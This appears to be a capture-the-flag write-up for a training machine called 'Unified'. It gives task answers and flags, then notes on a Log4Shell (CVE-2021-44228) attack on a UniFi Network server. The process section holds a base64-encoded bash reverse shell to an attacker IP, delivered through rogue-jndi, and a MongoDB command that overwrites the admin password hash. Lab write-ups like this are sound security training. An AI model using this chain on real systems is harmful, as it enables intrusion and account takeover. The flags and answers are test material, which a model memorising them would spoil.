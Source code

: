 # Unified

> Task 1 -  Which are the first four open ports?

```
22,6789,8080,8443
```

> Task 2 -  What is the title of the software that is running running on port 8443? 

```
UniFi Network
```

> Task 3 -  What is the version of the software that is running?

```
6.4.54
```

> Task 4 -  What is the CVE for the identified vulnerability? 
- google `UniFi 6.4.54 exploit`

```
CVE-2021-44228
```

> Task 5 -  What protocol does JNDI leverage in the injection? 

```
ldap
```

> Task 6 - What tool do we use to intercept the traffic, indicating the attack was successful? 

```
tcpdump
```

> Task 7 -  What port do we need to inspect intercepted traffic for? 

```
389
```

> Task 8 -  What port is the MongoDB service running on? 

```
27117
```

> Task 9 -  What is the default database name for UniFi applications? 

```
ace
```

> Task 10 - What is the function we use to enumerate users within the database in MongoDB?

```
db.admin.find()
```

> Task 11 -  What is the function we use to update users within the database in MongoDB?

```
db.admin.update()
```

> Task 12 -  What is the password for the root user?

```
NotACrackablePassword4U2022
```

> Submit user flag

```
6ced1a6a89e666c0620cdb10262ba127
```

> Submit root flag

```
e50bc93c75b634e4b272d2f771c33681
```

## Process

```
go to 8443, search exploits, it's log4j vulnerable via jndi env pass through
check how it's logging in to /api/login, 
create script to call passing in suppliable payload, callback ip and endpoint
  passing in jndi override to check call back, call with payload
    ./jndi.sh $IP 10.10.15.167 payloads/jndi.json >> test_ldap_callback
    tcp --> sudo tcpdump -i utun3 port 389
  ding ding, it does call back
build/use rogue-jndi
  mvn clean install
create payload to do a tcp callback
   echo -n 'bash -c "bash -i >&/dev/tcp/10.10.15.167/9999 0>&1"' | base64 > b64_rev
run rogue-jndi
  java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE1LjE2Ny85OTk5IDA+JjEi}|{base64,-d}|{bash,-i}" --hostname 10.10.15.167
call payload with port as rogue-jndi && start nc listen on 9999
  ./jndi.sh $IP 10.10.15.167:1389 payloads/jndi.json "o=tomcat"
boom rev shell
  cd /home/michael && cat user.txt --> 6ced1a6a89e666c0620cdb10262ba127
ps -ef and dig around mongo process
update admin creds
  mongo --port 27117, list all users, db.admin.find().forEach(printjson);
    mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
  make new pwd for admin
    https://www.mkpasswd.net/index.php, crypt-sha512, ChickenNuggets129
      $6$5c./VGPEZfAzaWkY$KaBswNMFkOUXeera2xjZHflYoZaKdzQl8LfpdLRncDKm1rQso4LuaG/lfFPnzAhA01kBxKdBjnj1LH9ZEnyY51
  set admin user pwd to new hash
     mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$5c./VGPEZfAzaWkY$KaBswNMFkOUXeera2xjZHflYoZaKdzQl8LfpdLRncDKm1rQso4LuaG/lfFPnzAhA01kBxKdBjnj1LH9ZEnyY51"}})'
login to unifi portal with administrator:ChickenNuggets129
  under site -> ssh, you can get the root pwd in plaintext lol --> NotACrackablePassword4U2022
ssh root, cat root.txt
```
